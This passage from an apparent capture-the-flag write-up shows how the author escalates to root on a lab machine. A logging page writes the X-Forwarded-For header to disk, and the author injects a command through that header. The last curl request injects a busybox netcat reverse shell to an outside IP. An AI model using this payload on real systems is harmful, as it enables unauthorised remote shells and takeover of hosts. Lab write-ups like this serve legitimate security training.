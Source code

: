 Let’s have a look at /var/www/development directory:

```bash
kitty@ip-10-10-50-107:/var/www/development$ ls -la
total 32
drwxr-xr-x 2 root     root     4096 Nov 15  2022 .
drwxr-xr-x 4 root     root     4096 Nov 15  2022 ..
-rw-r--r-- 1 root     root      493 Nov 15  2022 config.php
-rw-r--r-- 1 root     root     2843 Nov 15  2022 index.php
-rw-r--r-- 1 www-data www-data    0 Jul 12 10:56 logged
-rw-r--r-- 1 root     root      223 Nov 15  2022 logout.php
-rw-r--r-- 1 root     root     5332 Nov 15  2022 register.php
-rw-r--r-- 1 root     root      860 Nov 15  2022 welcome.php
```

Check index.php:

<img width="1523" height="717" alt="image 9" src="https://github.com/user-attachments/assets/eb7e7d82-2be6-413f-a03a-b4e063604ac5" />

It is getting IP via ‘http-x-forwarded’ header, that means we can control it and will inject our commands too.

But, first of all let’s check if it’s running on the same 80 port or somewhere else:

<img width="1496" height="367" alt="image 10" src="https://github.com/user-attachments/assets/04570040-2007-475c-ad40-1f438b51ac58" />

Our doubt was correct, as we can see an instance running on port 8080 locally(127.0.0.1).

To confirm we can check out it’s config page and see it’s documentRoot is at /var/www/development.

<img width="1446" height="687" alt="image 11" src="https://github.com/user-attachments/assets/a23682c8-7f59-4088-a277-d541ae6a39d0" />

Now, we can make curl request internally to port 8080 with custom headers and check our attack.

```bash
kitty@ip-10-10-50-107:/var/www/development$ curl -X POST \
> -H "Content-Type: application/x-www-form-urlencoded" \
> -H "X-Forwarded-For: test" \
> -d "username=0xi&password=asdasd" \
> http://127.0.0.1:8080/index.php

SQL Injection detected. This incident will be logged!
kitty@ip-10-10-50-107:/var/www/development$ cat logged
test
```

As we put any dangerous character in username and it logs that request’s ip from X-Forwarded-For header.

Now, we can put reverse shell there in header and will get root shell back to our machine.

```bash
kitty@ip-10-10-50-107:/var/www/development$ curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: \$(busybox nc 10.17.87.131 4445 -e /bin/bash)" \
> -d "username=0xi&password=asdasd" \
> http://127.0.0.1:8080/index.php

SQL Injection detected. This incident will be logged!kitty@ip-10-10-50-107:/var/www/development$ cat logged
$(busybox nc 10.17.87.131 4445 -e /bin/bash)
```
